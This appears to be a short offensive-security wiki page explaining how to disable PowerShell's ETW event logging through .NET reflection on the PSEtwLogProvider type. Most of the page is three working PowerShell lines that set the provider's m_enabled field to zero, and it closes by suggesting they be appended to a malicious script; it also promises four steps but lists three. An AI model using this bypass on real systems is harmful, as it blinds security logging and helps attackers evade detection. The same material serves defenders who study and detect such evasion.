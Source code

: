 # Powershell reflection

In the context of ETW, an attacker can reflect the ETW event provider assembly and set the `m_enabled` field to `$null`.

At a high level, PowerShell reflection can be broken up into four steps:

1. Obtain `.NET` assembly for `PSEtwLogProvider`.
2. Store a null value for `etwProvider` field.
3. Set the field for `m_enabled` to previously stored value.

## Code

Obtain the type for the `PSEtwLogProvider` assembly and store it to access its internal fields in the next step:

```text
$logProvider = [Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider')
```

Store a value ($null) from the previous assembly:

```text
$etwProvider = $logProvider.GetField('etwProvider','NonPublic,Static').GetValue($null)
```

Compile the steps together to overwrite the `m_enabled` field with the stored value:

```text
[System.Diagnostics.Eventing.EventProvider].GetField('m_enabled','NonPublic,Instance').SetValue($etwProvider,0);
```

Compiled together, these steps can be appended to make a malicious PowerShell script.
